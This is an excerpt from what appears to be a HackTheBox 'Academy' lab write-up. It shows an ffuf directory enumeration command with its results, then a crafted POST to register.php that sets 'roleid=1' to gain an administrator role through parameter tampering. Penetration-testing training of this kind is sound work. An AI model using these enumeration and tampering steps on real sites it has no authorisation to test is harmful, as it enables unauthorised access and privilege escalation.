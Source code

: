 ```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://academy.htb/FUZZ -e .php,.phps -ic -t 20

[SNIP]

index.php               [Status: 200, Size: 2117, Words: 890, Lines: 77, Duration: 8ms]
home.php                [Status: 302, Size: 55034, Words: 4001, Lines: 1050, Duration: 8ms]
login.php               [Status: 200, Size: 2627, Words: 667, Lines: 142, Duration: 9ms]
register.php            [Status: 200, Size: 3003, Words: 801, Lines: 149, Duration: 9ms]
admin.php               [Status: 200, Size: 2633, Words: 668, Lines: 142, Duration: 8ms]
```

![Burp Suite - POST Register 1](./assets/screenshots/hackthebox_academy_burpsuite_post_register_1.png)

**Insecure Direct Object Reference (IDOR) / Parameter Tampering**

```http
POST /register.php HTTP/1.1
Host: academy.htb

[SNIP]

Content-Type: application/x-www-form-urlencoded

[SNIP]

uid=admin_test&password=Test123&confirm=Test123&roleid=1
```
